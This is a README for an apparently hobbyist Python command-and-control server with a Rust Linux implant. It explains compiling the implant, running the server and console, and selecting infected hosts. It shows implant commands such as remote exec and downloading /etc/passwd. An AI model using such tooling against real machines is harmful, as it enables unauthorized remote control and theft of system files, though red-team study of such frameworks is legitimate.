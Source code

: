 # Revenant-C2
C2 framework written in python3 and a linux implant written in Rust

# Installation
## Python Packages
`pip3 install rich cmd2 pycryptodome`

## Make sure you have rust installed to compile the implant
`curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh`

## Compile Ghost Implant
`cd Ghost-Implant && cargo build`
### By default it calls back to 127.0.0.1:4444 you can change this in the code, I will automate this eventually...
### Later on I will be adding features to build the implant from the c2 but for now its manual...
If you are interested in cross compiling check out this [cross compiler](https://github.com/messense/rust-musl-cross) for rust

# Running the C2
`python3 c2.py --ip 127.0.0.1 --port 4444`
### the ip flag is what interface the c2 will be listening on and the port is what port the implant will be calling back to, by default the implant calls back to 4444 and the "control port" that the console connects to is 10000
# Running the Console
`python3 console.py`
### This will drop you into a python3 cmd2 console  with this prompt:
`(Disconnected):`
### This is telling us that we are currently not connected a C2
### Connect to a C2 using this command (port defaults to 10000)
`(Disconnected): connect --ip 127.0.0.1`
### If connection is successful the prompt should change
`(Connected):`
### At this point you are waiting for implant connections to the C2, you will get a notification when there is a new connection
`New Client: 1`
### To see what clients are currently connected run:
`get_clients`
### A table will pop up with clients and their respective ID's
### To start interacting with a client you have to select it:
`select 1`
### Your prompt will change to resemble the hostname of the selected target
`(ubuntu): `
### Now you can run commands to interact with the implant, right now there is only a few but I will be adding more
`(ubuntu): ps`\
`(ubuntu): exec ls -l /tmp`\
`(ubuntu): upload --source /etc/passwd --destination /tmp/passwd`\
`(ubuntu): download --source /etc/passwd --destination /tmp/passwd`\
** There is some random commands that I've been using for testing, I will clean them up in the future **

